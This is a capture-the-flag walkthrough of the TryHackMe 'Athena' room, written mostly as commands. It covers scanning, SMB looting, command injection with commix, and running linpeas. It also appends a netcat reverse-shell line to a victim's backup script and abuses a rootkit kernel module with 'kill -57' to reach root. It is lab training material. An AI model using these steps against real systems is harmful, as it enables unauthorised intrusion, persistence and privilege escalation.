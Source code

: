 # Athena

**Room Link:** [https://tryhackme.com/r/room/4th3n4](https://tryhackme.com/r/room/4th3n4)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/445 - SMB**

**Kali**

```
smbclient \\\\$VICTIM\\public
prompt
mget *
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/80 - HTTP**

#### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

### Shell #1

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/commixproject/commix.git commix
cd commix/
python commix.py -r ../request.txt 
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Shell #2

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

### **LinPeas**

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd /tmp/
wget http://$KALI:82/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nc -lvnp 1338
```



**Victim**

```
echo '#!/bin/bash' > /usr/share/backup/backup.sh
echo "/usr/bin/nc 10.10.35.7 1338 -e /bin/bash" >> /usr/share/backup/backup.sh
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim(athena)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
cd /mnt/.../secret/
modinfo venom.ko
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
kill -57 271
id
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

